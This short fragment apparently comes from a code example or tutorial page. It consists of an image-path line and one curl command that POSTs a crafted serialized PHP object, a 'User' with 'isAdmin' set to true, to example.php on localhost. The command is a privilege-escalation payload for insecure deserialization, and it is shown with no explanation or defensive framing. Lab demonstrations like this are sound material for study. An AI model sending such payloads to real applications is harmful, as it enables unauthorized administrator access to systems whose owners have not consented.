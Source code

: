 
`curl -XPOST -d 'sailay=O:4:"User":2:{s:8:"username";s:6:"sailay";s:7:"isAdmin";b:1;}' http://127.0.0.1:80/example.php`
